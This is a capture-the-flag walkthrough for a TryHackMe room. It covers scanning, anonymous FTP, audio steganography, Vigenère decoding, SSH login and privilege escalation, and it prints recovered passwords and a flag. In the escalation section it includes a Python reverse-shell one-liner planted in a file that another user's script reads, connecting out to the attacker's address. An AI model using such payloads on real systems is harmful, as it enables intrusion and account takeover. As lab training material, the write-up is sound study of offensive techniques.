 # TryHackMe-BreakOutTheCage


## NMAP

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-19 16:33 PKT
Nmap scan report for 10.10.4.108
Host is up (0.24s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             396 May 25 23:33 dad_tasks
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.94.60
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dd:fd:88:94:f8:c8:d1:1b:51:e3:7d:f8:1d:dd:82:3e (RSA)
|   256 3e:ba:38:63:2b:8d:1c:68:13:d5:05:ba:7a:ae:d9:3b (ECDSA)
|_  256 c0:a6:a3:64:44:1e:cf:47:5f:85:f6:1f:78:4c:59:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Nicholas Cage Stories
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.39 seconds

```

## FTP

```
ftp 10.10.4.108
Connected to 10.10.4.108.
220 (vsFTPd 3.0.3)
Name (10.10.4.108:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 May 25 23:32 .
drwxr-xr-x    2 0        0            4096 May 25 23:32 ..
-rw-r--r--    1 0        0             396 May 25 23:33 dad_tasks
226 Directory send OK.
ftp> 
```

We get some base64 encoded text in `dad_tasks` on decoding it 

```
Qapw Eekcl - Pvr RMKP...XZW VWUR... TTI XEF... LAA ZRGQRO!!!!
Sfw. Kajnmb xsi owuowge
Faz. Tml fkfr qgseik ag oqeibx
Eljwx. Xil bqi aiklbywqe
Rsfv. Zwel vvm imel sumebt lqwdsfk
Yejr. Tqenl Vsw svnt "urqsjetpwbn einyjamu" wf.

Iz glww A ykftef.... Qjhsvbouuoexcmvwkwwatfllxughhbbcmydizwlkbsidiuscwl

```

## Gobuster

```
gobuster dir -u http://10.10.4.108 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.4.108
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/10/19 16:46:39 Starting gobuster
===============================================================
/images (Status: 301)
/html (Status: 301)
/scripts (Status: 301)
/contracts (Status: 301)
/auditions (Status: 301)
Progress: 62135 / 220561 (28.17%)
===============================================================
2020/10/19 17:04:57 Finished
===============================================================

```


`wget http://10.10.4.108/auditions/must_practice_corrupt_file.mp3`


## Steganography

### Audacity
<img src="https://imgur.com/KtPjoZ1.png"/>


### Sonic Visualizer

<img src="https://imgur.com/teGZ6sc.png"/>

By selecting `spectrogram` we can view it which is `namelesstwo` now by using Vigenere cipher we can decode the text which is 


```
Dads Tasks - The RAGE...THE CAGE... THE MAN... THE LEGEND!!!!
One. Revamp the website
Two. Put more quotes in script
Three. Buy bee pesticide
Four. Help him with acting lessons
Five. Teach Dad what "information security" is.

In case I forget.... Mydadisghostrideraintthatcoolnocausehesonfirejokes
```


`Mydadisghostrideraintthatcoolnocausehesonfirejokes` this may be a password for user `weston` because he set up the website

## SSH

```
weston@10.10.4.108's password:                                            
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)                                                                                 
                                                                          
 * Documentation:  https://help.ubuntu.com                                
 * Management:     https://landscape.canonical.com                        
 * Support:        https://ubuntu.com/advantage                           

  System information as of Mon Oct 19 12:28:23 UTC 2020                   

  System load:  0.0                Processes:           89                                                                                          
  Usage of /:   20.3% of 19.56GB   Users logged in:     0                 
  Memory usage: 32%                IP address for eth0: 10.10.4.108                                                                                 
  Swap usage:   0%                   


39 packages can be updated.          
0 updates are security updates.                                           


         __________                  
        /\____;;___\                 
       | /         /                 
       `. ())oo() .                  
        |\(%()*^^()^\                
       %| |-%-------|                
      % \ | %  ))   |                
      %  \|%________|                
       %%%%                          
Last login: Tue May 26 10:58:20 2020 from 192.168.247.1                   
weston@national-treasure:~$ ls -la

```

## Privilege Escalation (Cage)

We got a low privileged user shell (weston) in order to elevate to root we have to get `cage` shell for that visit `/opt` there you will find a python file and a hidden `.quotes` we can edit that file so delete the file create a new `vim .quotes` file copy and paste the below reverse shell with some text in first

```
"pwn" && python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.94.60",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```
and start listening for revere shell (netcat).


```
cage@national-treasure:~/email_backup$ cd ..
cage@national-treasure:~$ ls -la
total 56
drwx------ 7 cage cage 4096 May 26 21:34 .
drwxr-xr-x 4 root root 4096 May 26 07:49 ..
lrwxrwxrwx 1 cage cage    9 May 26 07:53 .bash_history -> /dev/null
-rw-r--r-- 1 cage cage  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 cage cage 3771 Apr  4  2018 .bashrc
drwx------ 2 cage cage 4096 May 25 23:20 .cache
drwxrwxr-x 2 cage cage 4096 May 25 13:00 email_backup
drwx------ 3 cage cage 4096 May 25 23:20 .gnupg
drwxrwxr-x 3 cage cage 4096 May 25 23:40 .local
-rw-r--r-- 1 cage cage  807 Apr  4  2018 .profile
-rw-rw-r-- 1 cage cage   66 May 25 23:40 .selected_editor
drwx------ 2 cage cage 4096 May 26 07:33 .ssh
-rw-r--r-- 1 cage cage    0 May 25 23:20 .sudo_as_admin_successful
-rw-rw-r-- 1 cage cage  230 May 26 08:01 Super_Duper_Checklist
-rw------- 1 cage cage 6761 May 26 21:34 .viminfo
cage@national-treasure:~$ cat Super_Duper_Checklist 
1 - Increase acting lesson budget by at least 30%
2 - Get Weston to stop wearing eye-liner
3 - Get a new pet octopus
4 - Try and keep current wife
5 - Figure out why Weston has this etched into his desk: THM{M37AL_0R_P3N_T35T1NG}
cage@national-treasure:~$ 



```
On visiting `/home/cage/email_backup/email_2`

We will again find a encoded text which is Vigenère 
`haiinspsyanileph`

Here we can see that focus is on `face` so that might be the key


## Privilege Escalation (Root)

`su root` with the password `cageisnotalegend`

Visit `/root/email_backup/email_2`

And you'll find the root flag.
